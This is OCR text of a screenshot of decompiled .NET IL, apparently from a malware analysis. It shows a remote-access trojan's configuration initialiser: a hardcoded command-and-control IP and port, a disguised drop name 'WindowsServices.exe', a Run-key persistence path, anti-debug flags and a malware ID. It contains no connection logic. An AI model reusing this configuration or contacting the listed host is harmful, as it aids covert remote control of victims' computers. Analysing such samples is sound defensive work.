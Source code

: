 0x20 ldc.i4						0x1401
0x8D newarr 					mscorlib]System.Byte
0x80 stsfld 					uint8[] j.OK::TaskBuffer?
0x72 ldstr 						"False"
0x28 call 						bool [Microsoft.VisualBasic]Microsoft.VisualBasic.CompilerServices.Conversions::ToBoolean(string)
0x80 stsfld 					bool j.OK::Thread_Debug?
0x14 ldnull 					
0x80 stsfld 					class [System]System.Net.Sockets.TcpClient j.OK::C
0x16 ldc.i4.0
0x80 stsfld 					bool j.OK::Connect_Back_to_C2
0x72 ldstr 						"TEMP"
0x80 stsfld 					string j.OK::Executable_Directory
0x72 ldstr 						"WindowsServices.exe"
0x80 stsfld 					string j.OK::Executable_Name
0x73 newobj 					instance void [Microsoft.VisualBasic]Microsoft.VisualBasic.Devices.Computer::.ctor()
0x80 stsfld 					class [Microsoft.VisualBasic]Microsoft.VisualBasic.Devices.Computer j.OK::F
0x72 ldstr 						"81.23.151.222"
0x80 stsfld 					string j.OK::HostAddr
0x72 ldstr 						"False"
0x28 call 						bool [Microsoft.VisualBasic]Microsoft.VisualBasic.CompilerServices.Conversions::ToBoolean(string)
0x80 stsfld 					bool j.OK::Idr
0x72 ldstr 						"False"
0x28 call 						bool [Microsoft.VisualBasic]Microsoft.VisualBasic.CompilerServices.Conversions::ToBoolean(string)
0x80 stsfld 					bool j.OK::Anti_Debug_Process_Check
0x72 ldstr 						"False"
0x28 call 						bool [Microsoft.VisualBasic]Microsoft.VisualBasic.CompilerServices.Conversions::ToBoolean(string)
0x80 stsfld 					bool j.OK::StartupPersistence_Option
0x72 ldstr 						"False"
0x28 call 						bool [Microsoft.VisualBasic]Microsoft.VisualBasic.CompilerServices.Conversions::ToBoolean(string)
0x80 stsfld 					bool j.OK::ProgramFiles_Persistance?
0x72 ldstr 						"False"
0x28 call 						bool [Microsoft.VisualBasic]Microsoft.VisualBasic.CompilerServices.Conversions::ToBoolean(string)
0x80 stsfld 					bool j.OK::Persistence_Option
0x14 ldnull 					
0x80 stsfld 					j.kl j.OK::kq
0x72 ldstr 						""
0x80 stsfld 					j.OK::lastcap
0x28 call 						class [mscorlib]System.Reflection.Assembly [mscorlib]System.Reflection.Assembly::GetEntryAssembly()
0x28 callvirt 					instance string [mscorlib]System.Reflection.Assembly::get_Location()
0x73 newobj 					void [mscorlib]System.IO.FileInfo::.ctor(string)
0x80 stsfld 					mscorlib]System.IO.FileInfo j.OK::Current_File_Info
0x73 newobj 					instance void [mscorlib]System.IO.MemoryStream::.ctor()
0x80 stsfld 					mscorlib]System.IO.MemoryStream j.OK::MeM
0x14 ldnull 					
0x80 stsfld 					j.OK::MT
0x72 ldstr 						"352"
0x80 stsfld 					j.OK::Port?
0x14 ldnull 					
0x80 stsfld 					j.OK::PLG
0x72 ldstr 						"cced8f41daef86542c6eaefd81723d42"
0x80 stsfld 					j.OK::Persistence_KeyName
0x72 ldstr 						"Software\\Microsoft\\Windows\\CurrentVersion\\Run"
0x80 stsfld 					j.OK::'CurrentVersion\\Run_String'
0x72 ldstr 						"VGVzdDE="
0x80 stsfld 					j.OK::VN
0x72 ldstr 						"0.7d"
0x80 stsfld 					string j.OK::VR
0x72 ldstr 						"Y262SUCZ4UJJ"
0x80 stsfld 					string j.OK::Malware_ID?
0x2A ret 					
